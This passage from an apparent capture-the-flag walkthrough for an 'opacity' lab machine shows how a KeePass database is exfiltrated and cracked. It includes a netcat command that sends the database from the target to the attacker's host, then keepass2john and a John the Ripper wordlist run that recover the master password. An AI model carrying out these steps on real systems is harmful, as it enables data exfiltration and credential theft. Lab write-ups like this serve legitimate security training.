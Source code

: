 In the target machine, connect to your local machine:

```
www-data@opacity:/opt$ nc <your-ip> 9999 < dataset.kdbx
```

Now, in your machine, you can see that the file is indeed a KeePass password database.

```
$ file dataset.kdbx           
dataset.kdbx: Keepass password database 2.x KDBX
```

## Privilege Escalation

`keepass2john` processes input KeePass 1.x and 2.x database files into a format suitable for use with John.

```
$ keepass2john dataset.kdbx > keepasshash.txt
```

The hash was created.

```
$ cat keepasshash.txt 
dataset:$keepass$*2*100000*0*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4
```

Now, use John to crack the password.

```
$ john keepasshash.txt --wordlist=/usr/share/wordlists/rockyou.txt          
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>      (dataset)     
1g 0:00:00:13 DONE (2023-04-08 21:06) 0.07396g/s 64.49p/s 64.49c/s 64.49C/s chichi..walter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Next you can use the KeePassXC tool to extract the password.

1) Open KeePassXC
2) Select "Open existing database"
3) Select the `dataset.kdbx` file
4) Enter the password found by John
5) Press "Unlock"
6) In the "General" tab, click on the eye symbol to show the password. Copy it.
